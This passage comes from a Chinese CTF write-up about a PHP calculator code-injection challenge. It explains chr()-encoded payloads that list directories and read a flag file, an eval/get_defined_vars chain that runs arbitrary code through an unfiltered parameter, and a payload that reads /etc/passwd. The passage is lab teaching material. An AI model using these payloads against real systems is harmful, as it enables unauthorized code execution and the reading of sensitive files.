 

但其实这里可以更简单：

#### calc.php? num=var_dump(scandir(chr(46)));

46 是 “.” 的 ASCII 码值，返回结果：



因为可以有参数嘛。用 chr() 函数将数字变为字符。

#### 同理查看根目录下的文件：calc.php? num=var_dump(scandir(chr(47)));

47 是 “/” 的 ASCII 码值

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/50e93170372c4fbf9e09ad41d6f5909d.png#pic_center)

找到/f1aag这个文件

查看 /f1agg 文件

#### num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103));

### 知识点2.file_get_contents() 函数

把整个文件读入一个字符串中。

chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)

分别是 ‘/’ ‘f’ ‘1’ ‘a’ ‘g’ ‘g’ 的 ASCII 值转字符，‘.’ 用作字符串连接。每一个 chr() 函数返回的结果由于是字符，所以自带了一对引号，不需要额外再加。

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/7aacafeccdf94541a6b70abbb639c728.png#pic_center)

### 知识点3.url溢出

? num=1;eval(end(pos(get_defined_vars())))&nss=phpinfo();&

get_defined_vars()：返回由所有已定义变量所组成的数组，会返回 _GET , _POST , _COOKIE , _FILES 全局变量的值，返回数组顺序为 get->post->cookie->files 。

current()：返回数组中的当前单元，初始指向插入到数组中的第一个单元，也就是会返回 $_GET 变量的数组值。

end() : 将内部指针指向数组中的最后一个元素，并输出。即新加入的参数 nss 。

最后由 eval() 函数执行，使得 get 方式的参数 nss 生效。

这样的话就可以再利用 nss 传参了，由于代码只对 num 参数的值做了过滤，因此 nss 参数理论上可以造成任意代码执行。

这样可以看到phpinfo，找到disable_function函数

#### 查看 /etc/passwd 文件

```
? num=1;eval(end(pos(get_defined_vars())))&nss=include("/etc/passwd");
```

输出结果：

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/3e1382cdd0e14e2ab9a8582e68920b4f.png#pic_center)
